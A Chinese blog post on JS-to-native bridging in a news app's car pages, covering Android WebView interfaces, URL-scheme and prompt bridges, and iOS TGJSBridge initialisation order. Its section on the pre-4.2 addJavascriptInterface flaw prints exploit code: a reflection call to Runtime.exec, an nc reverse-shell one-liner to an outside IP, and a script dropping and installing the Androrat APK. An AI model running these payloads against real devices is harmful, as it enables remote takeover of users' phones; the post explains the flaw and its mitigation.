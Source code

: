 ```yaml
---
layout: post
title: 在APP中实现js与native通信
categories:
- 前端
tags:
- native通信
- 新闻客户端
- jsbridge
---
```


在订制腾讯新闻客户端的汽车页卡时，有些页面是用HTML页面实现的。比如车系详情页，车型详情页。这类页面因为汽车运营的关系具有不定期更新的特点。比如车型降价，新车上市等。使用HTML页面之后，有些数据需要从客户端传递过来，也有一些数据需要从页面传递到客户端，也就是HTML与客户端之间通信的问题。

## Android平台

### Android调用JS
{% highlight java %}
WebView.loadUrl("javascript:onJsAndroid()");
{% endhighlight %}

### JS调用Android
{% highlight java %}
// Android java代码
mWebView.addJavascriptInterface(new Class(),"android");  

public class Class(){
  @JavascriptInterface
  public void methodOne(){

  }
} 

// js 代码
window.android.methodOne();
{% endhighlight %}

### 弊端
在Android 4.2之前的版本中，通过addJavascriptInterface然后利用java的反射机制，可以回调java类中的内置静态变量。

首先，通过java可以反弹shell，这样可以读写Android文件系统。
{% highlight javascript %}
function execute(cmdArgs)
{
  return XXX.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);
}
execute(["/system/bin/sh","-c","nc 192.168.1.9 8088|/system/bin/sh|nc 192.168.1.9 9999"]);
alert("ok3");
{% endhighlight %}

其次，可以对网页挂马，安装apk到手机中
{% highlight javascript %}
function execute(cmdArgs)
{
  return xxx.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec(cmdArgs);
} 
 
var armBinary1 = "x50x4Bx03x04x14x00x08x00x08x00x51x8FxCAx40x00x00x00x00x00x00x00x00x00x00x00x00x13x00x04x00x72x65x73x2Fx6Cx61x79x6Fx75x74x2Fx6Dx61x69x6Ex2Ex78x6Dx6CxFExCAx00x00xADx52x31x6FxD3x40x18xFDx2Ex76xAEx86xC4x69x5Ax3Ax54xA2x12xA9xC4"
 
var armBinary2="x1BxB0x65x0AxADx23xC2x30x64xDFxEExA1x0DxA4xE8x3Fx61x80xEExBCxE1xE7x7Bx4Ax25x6Fx8Bx36x71xC3x80x81x58xDBxC9x8Fx53x9FxEEx8Ax45xAFx23x54x4AxCFx2Bx52xF2x33x84xBAx82x36xC4x0Dx08xAFxC2x61x8ExD8x7Bx0BxFCx88x4Ax25x24x8Cx22xFAx76x44x78x5Ex99x62x30x44x8DxDBx74x94"
 
var armBinary3="…"
var armBinary4="…"
// ……
var patharm = "/mnt/sdcard/Androrat.apk";
var a=execute(["/system/bin/sh","-c","echo -n +armBinary1+ > " + patharm]);

execute(["/system/bin/sh","-c","echo -n +armBinary2+ >> " + patharm]);
execute(["/system/bin/sh","-c","echo  -n +armBinary3+ >> " + patharm]);
execute(["/system/bin/sh","-c","echo -n +armBinary4+ >> " + patharm]);
execute(["/system/bin/sh","-c","adb install /mnt/sdcard/Androrat.apk"]);

{% endhighlight %}
以上流程，可以将apk进行拆分，利用echo写入到文件系统中，然后利用adb进行安装。

在Android 4.2版本中，开始使用@JavascriptInterface，然后在java代码中验证js调用的每个参数，屏蔽攻击代码，可以防止攻击。

汽车垂直化方案
新闻客户端提供两种js调用native的方式

* url scheme方式
通过伪协议"jsbridge://get_with_json_data?json=params", native代码重写shouldOverrideUrlLoading来做相关接口的实现和白名单控制
{% highlight javascript %}
/**
 * webview代码中通过监听onLoadResource触发调用Java方法
 */
function resourceCall() {
  var paramsArray = S.call(arguments, 0);
  var img = new Image();
  img.onload = function() {
    img = null;
  };
  img.src = 'jsbridge://get_with_json_data?json=' + encodeURIComponent(arrayToJsonString(paramsArray));
}
{% endhighlight %}
* prompt方式
这种方式是通过native重写onJsPrompt，拦截webview中的window.prompt并且获取其中的参数，处理完成之后需要调用JsPromptResult的confirm方法。
{% highlight javascript %}
/**
 * 通过prompt调用Java对象方法
 */
function promptCall() {
  var paramsArray = S.call(arguments, 0);
  var jsonResult = prompt(arrayToJsonString(paramsArray));
  var re = JSON.parse(jsonResult);
  if (re.code != 200) {
    throw "call error, code:" + re.code + ", message:" + re.result;
  }
  return re.result;
}
{% endhighlight %}

更多Android下js调用native的方案见此：[【Android WebView】Js调用Native的四种方式](http://km.oa.com/group/18297/articles/show/217614)

将与native通信用到的接口挂载在window.XXX下，调用window.XXX.YYY就可以调用native的方法。

## iOS平台
### iOS调用JS
{% highlight objective-c %}
// stringByEvaluatingJavaScriptFromString可以将字符串当做js来执行，在全局变量中定义js方法之后，OC就可以调用
- (void)webViewDidFinishLoad:(UIWebView *)webView {  
  NSString *currentURL = [webView stringByEvaluatingJavaScriptFromString:@"document.location.href"];
}
{% endhighlight %}

### JS调用iOS
js调用iOS，用到了开源库[TGJSBridge](https://github.com/ohsc/TGJSBridge)。其基本原理是利用伪协议"jsbridge://PostNotificationWithId-"，在native代码shouldStartLoadWithRequest中捕获并解析请求，然后调用相关的native逻辑。使用流程如下。
{% highlight javascript %}
// js向native发送修改页面标题的通知
jsBridge.postNotification('setTitle', {
  title : data.value
});
{% endhighlight %}
{% highlight objective-c %}
// 初始化jsBridge
- (void)webViewDidFinishLoad:(UIWebView *)webView
{
    [super webViewDidFinishLoad:webView];
    NSString *jsBridgePath = [[NSBundle mainBundle] pathForResource:@"TGJSBridge" ofType:@"js"];
    NSString *jsBridge = [NSString stringWithContentsOfFile:jsBridgePath encoding:NSUTF8StringEncoding error:nil];
    [self.webView stringByEvaluatingJavaScriptFromString:jsBridge];
    
    [self.webView stringByEvaluatingJavaScriptFromString:@"window.onJsBridgeReady()"];
    
    [self showLoading:NO animated:YES];
}

// 响应js端发送的通知"setTitle",修改页面标题
- (void)jsBridge:(TGJSBridge *)bridge setTitleWithUserInfo:(NSDictionary *)userInfo fromWebView:(UIWebView *)webview
{
//    NSString *titleName = QNString([userInfo objectForKey:@"title"], _carSerialName);
    ((QNTitleView *)self.qn_navigationItem.titleView).text = QNString([userInfo objectForKey:@"title"], _carSerialName);
}
{% endhighlight %}

在js调用iOS时，有一个前提，就是native代码中需要首先完成jsBridge的初始化。TGJSBridge提供了一个jsBridgeReady的事件，js端监听jsBridgeReady事件并在事件处理函数中再向native发送通知。

但是有个问题，新闻客户端将TGJSBridge.js文件打包到了安装包中，web页面无需再引入此js文件。在处理像设置页面标题这种问题时，即页面加载完成之后就需要马上向native发送通知的情况，就会有问题。

* js端直接调用jsBridge.bind('jsBridgeReady')——jsBridge可能还未初始化，并不在window的context中。
* 将jsBridge初始化操作提前，放在webViewDidStartLoad——jsBridgeReady已经被触发，但是页面js端还没开始监听jsBridgeReady事件。

native与js的jsBridge初始化调用顺序相互依赖，需要处理好，才能解决像setTitle这种操作。

**新闻客户端汽车页卡车系详情页的解决方式**
{% highlight javascript %}
//提供给ios调用的方法
var mutex = false;
window.onJsBridgeReady = function(){
  if(mutex){
    return;
  }
  try{
    nanoEvtProxy.on('iosnews:settit', function(data){
      jsBridge.postNotification('setTitle', {
        title : data.value
      });
    });
    nanoEvtProxy.trigger('iosnews:ready');
  }catch(e){

  }
  mutex = true;
}

// iosnews:ready被触发之后，说明native已经完成jsBridge初始化工作。
// 然后再触发iosnews:settit事件，
// 而在上面的代码中iosnews:settit事件已经完成监听，可以向native发送通知。
nanoEvtProxy.on('iosnews:ready', function(e, data){
  nanoEvtProxy.trigger('iosnews:settit', data);  
});
{% endhighlight %}

{% highlight objective-c %}
- (void)webViewDidFinishLoad:(UIWebView *)webView
{
    [super webViewDidFinishLoad:webView];
    
    // jsBridge初始化代码
    
    // 页面加载完成之后调用页面中定义的onJsBridgeReady方法
    [self.webView stringByEvaluatingJavaScriptFromString:@"window.onJsBridgeReady()"];
    
}
{% endhighlight %}

以上流程中，各种事件的监听和触发确实比较绕。但是梳理下来，是可以保证页面标题能正常而且尽可能快的被设置的。

## 参考
[WebView中接口隐患与手机挂马利用](http://drops.wooyun.org/papers/548)

[【Android WebView】Js调用Native的四种方式](http://km.oa.com/group/18297/articles/show/217614)

[WebView中JavaScript与Objective-C的交互](http://blog.csdn.net/perry_xiao/article/details/8027249)
